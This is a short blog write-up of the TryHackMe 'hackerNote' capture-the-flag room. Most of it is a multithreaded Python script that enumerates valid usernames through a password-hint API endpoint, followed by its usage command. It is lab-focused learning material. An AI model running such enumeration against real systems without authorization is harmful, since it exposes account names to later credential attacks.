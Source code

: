 ```yaml
---
layout: post
title: "Script sketch for a hackerNote room"
date: 2025-03-17 00:00:00 +0100
categories: [thm, hacking, linux]
tags: [ctf, python, script]
---
```


![sketch](/pics/scripthint.png)

### Basic info
There is a medium room [hackerNote](https://tryhackme.com/room/hackernote) on TryHackMe (from my point of view it could be even considered as easy one because of a pretty comprehensive walkthrough)

### Exploit a username
Script provided in the room is ok, but I decide to write mine because why not :D
If you check in burp or inspect in the browser - you could notice - every attempt to get a password hint an actual get request to this endpoint:

```bash
http://<ip>:80/api/user/passwordhint/<username>
```

If username exists - you will get a `200` with a hint, so lets use this approach + some multithreading by creating a bomb.py file with this script:

```python
import requests
import sys
from concurrent.futures import ThreadPoolExecutor


def get_password_hint(name):
    url = "http://10.10.254.38/api/user/passwordhint/"
    response = requests.get(url + name)

    # Check the response and print the name if successful
    if response.status_code == 200:
        print(name)

# Get the filepath from the command line argument
filepath = sys.argv[1]

# Read the names from the file
with open(filepath, "r") as file:
    names = [line.strip() for line in file]

# Use to handle requests concurrently
with ThreadPoolExecutor(max_workers=10) as executor:
    executor.map(get_password_hint, names)
```

- Sure it could be improved - we could print a hint near the username, or add ability to provide ip ... anyway for one time use it would enough to keep it this simlpe.

Usage:

```bash
python3 bomb.py /path/to/your/username/file
```

### Conclusion
Using this kind of script is better (in this case) from my point of view because you don't need to count a request time or do any extra logic besides a regular get request + also here we have a multithreading to handle requests faster than regular for loop.

So KISS - keep it simple stupid :)
